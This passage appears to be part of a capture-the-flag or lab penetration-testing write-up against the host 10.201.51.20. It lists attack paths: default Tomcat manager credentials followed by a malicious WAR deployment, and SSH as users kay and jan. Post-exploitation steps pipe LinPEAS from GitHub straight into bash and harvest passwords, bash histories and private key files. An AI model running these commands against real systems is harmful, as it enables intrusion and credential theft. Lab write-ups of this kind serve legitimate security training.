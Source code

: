 #### Path 2: Web Application Exploitation
```bash
# Analyze development directory
curl http://10.201.51.20/development/
# Look for source code with hardcoded credentials
# Check for backup files or configuration files
```

#### Path 3: Tomcat Manager Access
```bash
# Test default credentials
curl -u admin:admin http://10.201.51.20:8080/manager/
# If successful, deploy malicious WAR file
```

#### Path 4: SSH Access
```bash
# Use discovered credentials for SSH
ssh kay@10.201.51.20
ssh jan@10.201.51.20
# Or use discovered SSH private key
```

## Phase 6: Post-Exploitation Planning

### Privilege Escalation Strategy

Once initial access is obtained:

1. **System Enumeration**
   ```bash
   # Run LinPEAS
   curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash
   
   # Manual enumeration
   sudo -l
   find / -perm -4000 -type f 2>/dev/null
   cat /etc/crontab
   ```

2. **Credential Harvesting**
   ```bash
   # Check for additional credentials
   grep -r "password" /home/*/
   cat /home/*/.bash_history
   find /home/ -name "*.key" -o -name "*.pem" 2>/dev/null
   ```

3. **Lateral Movement**
   ```bash
   # Use discovered credentials for other users
   su - jan
   su - kay
   ```
